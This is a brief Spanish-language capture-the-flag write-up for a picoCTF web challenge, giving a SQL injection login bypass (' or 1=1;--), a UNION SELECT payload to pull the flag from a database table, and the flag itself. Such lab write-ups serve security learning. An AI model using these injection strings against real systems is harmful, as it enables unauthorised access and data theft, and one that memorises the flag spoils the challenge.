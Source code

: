 
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:49768/).


SQLiLite



**Solución 1**

```

usarname: admin

password: 'or 1=1;--


una vez carga en el search office escribir:
' union select 1,id,flag from  more_table;

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}


```


## Respuesta: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}**
